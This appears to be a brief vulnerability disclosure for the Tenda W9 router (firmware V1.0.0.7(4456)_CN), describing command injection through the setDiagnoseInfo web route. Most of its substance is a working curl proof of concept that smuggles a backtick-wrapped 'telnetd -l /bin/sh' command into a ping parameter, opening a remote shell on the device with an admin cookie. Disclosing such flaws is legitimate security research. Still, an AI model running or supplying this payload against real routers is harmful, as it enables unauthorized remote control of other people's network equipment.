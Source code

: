 # Tenda W9 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda W9 V1.0.0.7(4456)_CN devices. An HTTP request parameter is used in command string construction within the handler function of the formSetDiagnoseInfo route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.0.254/goform/setDiagnoseInfo -d cmd='ping+`telnetd -p 2224 -l /bin/sh`' --referer "Referer: http://192.168.0.254/system_checktool.asp" --cookie "w9v1_user=admin"

```





![poc](./poc.jpg)

